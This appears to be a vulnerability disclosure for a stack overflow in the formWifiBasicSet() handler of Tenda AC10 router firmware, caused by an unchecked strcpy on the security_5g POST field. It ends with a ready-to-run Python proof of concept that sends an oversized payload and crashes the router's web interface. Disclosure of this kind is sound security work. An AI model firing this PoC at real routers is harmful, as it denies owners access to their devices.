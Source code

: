 There is a stack overflow vulnerability in the formWifiBasicSet() function in the firmware of tenda router AC10 V15.03.05.19, which can be used by an attacker to perform a denial of service attack

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726811576463-98f85e85-4b00-4931-b52a-62d9dd07e193.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726813078320-b73b8008-e8f3-400d-9acc-0e7422f74829.png)

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">The strcpy() function does not perform a length check on the parameter</font>

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726758840376-3af1e908-4cc4-4011-be76-05b0de3d9902.png)

The parameter src can be passed in by the value of the security_5g via a POST request

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726758938644-943b5619-5718-449f-843b-3a91b04a7c98.png)

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726759216647-d4e8d4a3-c7ba-4971-9595-4fff199b4190.png)

After testing, filling in the security_5g parameter in the POST request body with 567 characters or more can cause the router web application to crash, resulting in a denial of service attack

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726759646247-f342dd90-1d77-4114-9440-ddb38701006a.png)

The web page is inaccessible

![](https://cdn.nlark.com/yuque/0/2024/png/35465795/1726809337650-b2a255c6-a231-48ad-8969-1d37bb2de49c.png)

The POC is as follows:

```python
import requests

url = "http://192.168.246.93/goform/WifiBasicSet"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=aav5gk"
}

payload = b"a"*567
data = {
	"wrlEn": "0",
	"wrlEn_5g": "0",
	"security": "none",
	"security_5g": payload,
	"ssid": "",
	"ssid_5g": "",
	"hideSsid": "0",
	"hideSsid_5g": "0",
	"wrlPwd": "",
	"wrlPwd_5g": ""
}
response = requests.post(url, headers=header, data=data, timeout=300)
#response = requests.post(url, headers=header, data=data, timeout=5)
print(response.text)
```


